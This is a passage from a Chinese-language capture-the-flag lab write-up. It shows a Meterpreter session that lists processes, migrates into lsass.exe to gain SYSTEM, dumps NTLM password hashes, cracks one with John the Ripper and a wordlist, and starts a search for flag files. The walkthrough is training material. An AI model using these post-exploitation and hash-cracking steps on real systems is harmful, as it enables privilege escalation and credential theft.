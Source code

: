 ```
        664   544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
        692   604   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
        700   604   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
        708   604   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
        816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
        884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
        ···
        ```
        + 迁移进程：

        ```
        meterpreter > migrate 700
        [*] Migrating from 2320 to 700...
        [*] Migration completed successfully.
        meterpreter > getuid
        Server username: NT AUTHORITY\SYSTEM
        ```

+ 转储非默认用户的密码并破解：hashdump

    ```
    meterpreter > hashdump
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
    ```
    + 非默认用户：Jon

    + [CrackStation在线破解](https://crackstation.net/)：
    
        ![Alt text](/style/image/image-256.png)

    + John 破解工具：
        ```
        #转储
        root@ip-10-10-223-84:~# echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > pass.txt
        root@ip-10-10-223-84:~# cat pass.txt 
        Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

        #破解
        root@ip-10-10-223-84:~# john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
        Using default input encoding: UTF-8
        Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
        Warning: no OpenMP support for this hash type, consider --fork=2
        Press 'q' or Ctrl-C to abort, almost any other key for status
        alqfna22         (Jon)
        1g 0:00:00:06 DONE (2023-11-28 15:54) 0.1579g/s 1611Kp/s 1611Kc/s 1611KC/s alr1979..alpus
        Use the "--show --format=NT" options to display all of the cracked passwords reliably
        Session completed. 
        ```

+ 查询flags:

    ```
    meterpreter > search -f flag*.txt
    Found 3 results...
    ==================
```